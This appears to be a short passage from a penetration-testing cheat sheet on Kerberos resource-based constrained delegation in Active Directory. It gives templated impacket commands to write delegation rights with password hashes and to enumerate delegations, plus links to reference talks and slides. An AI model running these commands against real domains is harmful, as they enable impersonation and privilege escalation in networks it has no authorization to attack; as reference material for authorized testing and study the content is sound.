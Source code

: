 {% code overflow="wrap" %}
```bash
# assign delegation
impacket-rbcd '<domain>/<user>' -hashes <:hash> -k -delegate-from <account> -delegate-to <account> -action write -dc-ip <hostname> -use-ldaps
# check delegation
impacket-findDelegation '<domain>/<user>':'<pass>' -dc-ip <ip> -k
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="Hacker Recipes" %}
{% embed url="https://www.thehacker.recipes/a-d/movement/kerberos/delegations" %}
{% endtab %}

{% tab title="PDF Presentation" %}
[PDF Presentation](https://shenaniganslabs.io/media/Constructing%20Kerberos%20Attacks%20with%20Delegation%20Primitives.pdf)
{% endtab %}

{% tab title="Talk" %}
{% embed url="https://www.youtube.com/watch?v=byykEId3FUs" %}
{% endtab %}

{% tab title="Video-Lecture" %}
{% embed url="https://www.youtube.com/watch?v=p9QFdITuvgU" %}
{% endtab %}
{% endtabs %}
